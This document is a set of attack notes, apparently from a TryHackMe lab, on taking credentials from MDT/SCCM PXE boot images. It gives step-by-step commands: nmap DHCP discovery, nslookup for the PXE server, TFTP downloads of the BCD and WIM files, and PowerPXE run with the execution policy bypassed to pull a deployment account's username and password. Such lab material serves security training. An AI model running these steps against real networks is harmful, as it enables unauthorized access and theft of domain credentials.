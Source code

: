 --- ---

<h2>General</h2>

MDT (Microsoft Deployment Toolkit) and SCCM (System Center Configuration Manager) are tools that are used to deploy and manage operating systems, applications, and other software in a network environment. A PXE (Preboot eXecution Environment) boot image is a type of boot image that is used to boot a computer over the network and perform various tasks, such as installing an operating system.

An attacker may attempt to exploit MDT or SCCM by compromising the PXE boot image and using it to gain unauthorized access to a system. For example, an attacker could modify the PXE boot image to include malicious code or to redirect the computer to a rogue server. If the attacker is successful, they may be able to gain access to the system and potentially compromise it.

---

<h2>Commands</h2>

<h3>PXE Boot Image Retrieval</h3>
Discover the DHCP IP (To find the PXE boot server)
```
nmap -sU -p 67 --script=dhcp-discover <network_range>
```
	'---> Network Range ---> /16 /24...

DHCP Explaination
	Dynamic Host Configuration Protocol (DHCP) is a network protocol that is used to enable automatic assignment of IP addresses and other related network configuration parameters to devices on a network. The DHCP server maintains a pool of available IP addresses and assigns them to devices on the network as needed. This helps to simplify network configuration and management, as it allows devices to be connected to the network without the need to manually configure their network settings.

Discover the PXEboot Server (On powershell | Need a windows machine in local network)
```
nslookup   ---> This will start the nslookup utility

set type=ptr
_pxe._tcp.IP_OF_DHCP_PREVIOUSLY_DISCOVER Replace

# If the DHCP server is configured to provide the PXE server's hostname or IP address, `nslookup` will display the result of the query. The output will show the hostname or IP address of the PXE server.
```


Access the webserver
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/63264e3ddce1a8b438a7c8b6d527688c.png)


To ensure that all users of the network can use SSH, start by creating a folder with your username and copying the powerpxe repo into this folder:

SSH Command Prompt (Create directory)
```markup
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir <username>
C:\Users\THM\Documents> copy C:\powerpxe <username>\
C:\Users\THM\Documents\> cd <username>
```

Downloading our BCD file to read the configuration of the MDT server (Powershell)
```markup
C:\Users\THM\Documents\USER> tftp -i <MDT_IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
```
- You will have to lookup THMMDT IP with `nslookup mdt.x.something.com`. 

With the BCD file now recovered, we will be using [powerpxe](https://github.com/wavestone-cdt/powerpxe) to read its contents. 

More about Powerpxe
	Powerpxe is a PowerShell script that automatically performs this type of attack but usually with varying results, so it is better to perform a manual approach. We will use the Get-WimFile function of powerpxe to recover the locations of the PXE Boot images from the BCD file:

Execute Powerpxe (Note that you need to import that powershell script on the machine)
```markup
powershell -executionpolicy bypass

Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```

WIM files are bootable images in the Windows Imaging Format (WIM). Now that we have the location of the PXE Boot image, we can again use TFTP to download this image:
```markup
PS C:\Users\THM\Documents\am0> tftp -i <MDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
```

<h3>Recovering Credentials from a PXE Boot Image</h3>
Exfiltrate stored credentials
```markup
Get-FindCredentials -WimFile pxeboot.wim
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = <account>
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = <password>
```